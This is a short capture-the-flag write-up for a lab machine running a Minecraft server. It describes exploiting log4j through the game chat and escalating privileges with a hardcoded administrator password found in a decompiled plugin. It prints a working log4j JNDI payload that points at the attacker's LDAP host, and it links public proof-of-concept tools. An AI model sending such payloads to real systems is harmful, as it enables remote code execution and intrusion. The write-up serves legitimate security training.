







# PORT SCAN
* **80** &#8594; HTTP (IIS 10.0)
* **25565** &#8594; Minecraft (1.16.5)

   

# ENUMERATION & USER FLAG

Cool website and no need to tell you what is the scenario of this machine

The way to exploitthis was through [log4j](https://github.com/kozmer/log4j-shell-poc) abuse, a widely used libray for elasticsearch and **<u>minecraft</u>** too. We can use the PoC with a netcat listener (on the PoC we should change the command to be execute with `powershell.exe`)

To connect to the minecraft chat I used [this PoC right here](https://github.com/Hololm/MCMetasploit), this is the same as we are in the game chat!

Now we can send the payload for `log4j`, in my case (with my IP address) is `${jndi:ldap://10.10.14.15:1389/a}` and after using this on the chat the magic will happen!

I grabbed the flag as we are `svc_minecraft` user and spawn a meterpeter shell to be more 

   

# PRIVILEGE ESCALATION

Looking around the `svc_minecraft` home directoy I have found the only plugin inside the minecraft server, is a **.jar** so after the upload on my local machine I used `jd-gui` to decompile it and look inside. Is a simple Java Class that records the number of user inside the MC server but what's important is the presence of hardcoded credentials `s67u84zKq8IXw`

I tried to check with **runas** if this was teh administrator password and I was right

After that I used to directly read the root flag, but  same things can be done to spawn an high permission reverse shell

